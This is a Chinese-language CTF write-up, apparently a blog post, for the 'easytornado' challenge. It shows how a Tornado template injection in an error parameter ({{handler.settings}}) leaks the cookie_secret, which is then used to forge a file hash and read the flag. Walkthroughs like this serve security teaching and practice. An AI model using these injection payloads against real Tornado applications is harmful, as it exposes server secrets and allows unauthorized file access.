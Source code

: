 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      easytornado    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-20         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```


打开题目。

![Uf0O9s.png](https://s1.ax1x.com/2020/07/20/Uf0O9s.png)

打开相应文件，并观察url.

url：  `/file?filename=/flag.txt&filehash=98955d903c32a8210c3506f60e21df92`

```
/flag.txt
flag in /fllllllllllllag
```

发现flag在/fllllllllllllag文件里

url: `/file?filename=/welcome.txt&filehash=b7321be5721fe54ced42219fc947fdc4`

```
/welcome.txt
render
```

render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

[render函数介绍](https://blog.csdn.net/qq78827534/article/details/80792514)

url: `/file?filename=/hints.txt&filehash=92c8e6d7f73110e7396ccbc4da5ee0d5`

```
/hints.txt
md5(cookie_secret+md5(filename))
```
url中filehash=md5(cookie_secret+md5(filename))
现在filename=/fllllllllllllag，只需要知道cookie_secret的就能访问flag。

现在直接把`filename`参数变为`falg`所在文件尝试。

直接跳转到error页面，url变为`/error?msg=Error`

猜测存在模板注入`ssti`攻击。

测试`/error?msg={{1}}`,页面返回1.

在Tornado的前端页面模板中，datetime是指向python中datetime这个模块，Tornado提供了一些对象别名来快速访问对象，

文档：

https://www.tornadoweb.org/en/latest/guide/templates.html#template-syntax

https://tornado-zh.readthedocs.io/zh/latest/web.html


尝试`/error?msg={{datetime}}`,页面回显：

```
<module 'datetime' from '/usr/local/lib/python2.7/lib-dynload/datetime.so'> 
```

说明是存在模板写注入的。

过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

```
RequestHandler.settings
An alias for self.application.settings.
```

handler指向的处理当前这个页面的RequestHandler对象，

RequestHandler.settings指向self.application.settings，

因此handler.settings指向

RequestHandler.application.settings。

构造payload获取cookie_secret.`/error?msg={{handler.settings}}`

页面回显：

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': 'ad888c91-00d3-4e58-974a-2d79350474bb'} 
```

得到了`cookie_secert`,那么就可以h构造url了。

加密`/fllllllllllllag` 得到`3bf9f6cf685a6dd8defadabfb41a03a1`

加密`ad888c91-00d3-4e58-974a-2d79350474bb3bf9f6cf685a6dd8defadabfb41a03a1`,得到`0ee8e7917ecaeeb33771b5502ba983e3`.

页面回显flag。

